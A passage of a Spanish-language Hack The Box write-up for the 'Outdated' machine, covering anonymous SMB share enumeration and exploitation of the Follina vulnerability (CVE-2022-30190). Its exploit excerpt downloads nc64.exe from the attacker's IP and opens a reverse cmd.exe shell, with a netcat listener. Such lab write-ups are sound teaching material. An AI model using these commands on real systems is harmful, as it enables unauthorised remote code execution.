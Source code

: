 Dentro del recurso compartido "Shares", encontramos un archivo PDF:

```bash
kali@kali:~/Documents/HTB/Outdated$ smbclient -N //10.10.11.175/Shares

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 11:01:33 2022
  ..                                  D        0  Mon Jun 20 11:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 11:00:32 2022

                9116415 blocks of size 4096. 2150420 blocks available
```

## Análisis del PDF

![Contenido del PDF](/secciones/posts/imagenes/outdated/pdf1.png)

El PDF contiene información sobre el envío de enlaces al soporte de TI para monitorear plataformas internas. Menciona CVEs que deben ser parcheados, incluyendo CVE-2022-30190 (también conocido como Follina), que utiliza enlaces externos de Word para llamar a la herramienta de diagnóstico de soporte de Microsoft (MSDT) y realizar ejecución de código.

## Explotación: Follina (CVE-2022-30190)

Utilizamos el script de John Hammond para explotar esta vulnerabilidad, modificándolo para que apunte a nuestra máquina:

```python
[...]
    if args.reverse:
        command = f"""Invoke-WebRequest http://10.10.14.130/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
        os.system("cp nc64.exe "+serve_path)
[...]
    if args.reverse:
        t = threading.Thread(target=serve_http, args=())
        t.start()
        print(f"[+] starting 'nc -lvnp {args.reverse}' ")
        os.system(f"rlwrap nc -lnvp {args.reverse}")
```
